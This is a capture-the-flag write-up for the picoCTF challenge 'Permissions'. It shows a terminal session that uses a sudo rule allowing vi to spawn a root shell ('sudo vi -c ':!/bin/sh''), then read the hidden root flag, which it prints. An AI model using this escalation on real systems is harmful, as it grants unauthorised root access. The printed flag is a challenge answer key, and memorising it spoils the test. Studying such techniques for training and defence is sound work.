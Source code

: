 ```yaml
---
tags:
---
```

# Permissions
---
### Description
---
Can you read files in the root file?

Additional details will be available after launching your challenge instance.
### Hints
---

> [!hint]- Hint(s)
> 1. 

### Step(s)
---
```ruby
picoplayer@challenge:~$ sudo -l
[sudo] password for picoplayer: 
Matching Defaults entries for picoplayer on challenge:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User picoplayer may run the following commands on challenge:
    (ALL) /usr/bin/vi
picoplayer@challenge:~$ sudo vi -c ':!/bin/sh' /dev/null

# whoami
root
# ls /root
# ls -ahl /root
total 12K
drwx------ 1 root root   23 Aug  4 21:33 .
drwxr-xr-x 1 root root   51 Oct 17 17:50 ..
-rw-r--r-- 1 root root 3.1K Dec  5  2019 .bashrc
-rw-r--r-- 1 root root   35 Aug  4 21:33 .flag.txt
-rw-r--r-- 1 root root  161 Dec  5  2019 .profile
# cat /root/.flag.txt
picoCTF{uS1ng_v1m_3dit0r_3dd6dcf4}
```

### Flag
---
> [!question]- Flag
> https://gtfobins.github.io/#vi







